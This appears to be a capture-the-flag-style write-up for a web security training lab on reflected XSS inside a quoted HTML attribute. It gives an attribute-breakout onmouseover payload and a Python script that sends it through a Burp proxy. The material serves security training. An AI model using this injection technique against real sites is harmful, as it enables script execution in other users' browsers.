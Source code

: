 ```yaml
---
title: 'XSS Lab 7'
description: 'Reflected XSS into an attribute where angle brackets are HTML-encoded; inject an event handler to call alert'
---
```



## Reflected XSS into attribute with angle brackets HTML-encoded

<div style="text-align: justify;">
  This lab contains a reflected cross-site scripting (XSS) vulnerability in the blog search functionality. The application HTML-encodes angle brackets, which prevents simple `<script>`-style injections. However, the user-controlled input is reflected inside a quoted HTML attribute. By breaking out of the attribute and injecting an event handler (for example `onmouseover`), it's possible to execute JavaScript without needing angle brackets.

  The exploit uses a small attribute-injection payload that closes the attribute quote and adds an `onmouseover` event that calls `alert(1)`. After sending the payload (via an intercepted search request), verify the injection by copying the resulting URL into your browser and moving the mouse over the injected element.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `search` parameter is reflected inside a quoted attribute in the HTML response.
- Angle brackets are HTML-encoded, so traditional tag injection (e.g. `<img>`) fails.
- By closing the current attribute quote and injecting an event handler, we can cause the browser to execute JavaScript.
- Payload example: `"onmouseover="alert(1)` — this closes the attribute, injects an `onmouseover` handler and keeps the remainder valid HTML.
- After sending the payload, copy the reflected URL into the browser and move the cursor over the injected element to trigger the alert.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '"onmouseover="alert(1)'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```